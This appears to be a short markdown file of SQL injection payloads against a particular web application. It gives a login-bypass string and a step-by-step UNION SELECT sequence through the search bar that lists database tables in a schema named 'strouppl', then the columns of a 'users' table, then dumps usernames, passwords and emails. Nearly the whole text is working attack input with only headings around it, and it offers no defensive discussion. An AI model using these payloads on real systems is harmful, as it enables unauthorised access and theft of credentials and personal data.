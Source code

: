 # SQL injections

## Access to an account via the login interface

`username'; --`

## Access to informations via the searchbar
### Select tables from the database

`aaaaa' UNION SELECT table_schema, table_name, table_schema, table_name FROM information_schema.tables WHERE table_schema = 'strouppl';--`

### Select columns from the table

`aaaaa' UNION SELECT column_name, table_name, column_name, table_name FROM information_schema.columns WHERE table_name = 'users';--`

### Select the data from the table

`aaaaa' UNION SELECT username, username, password, email FROM users;--`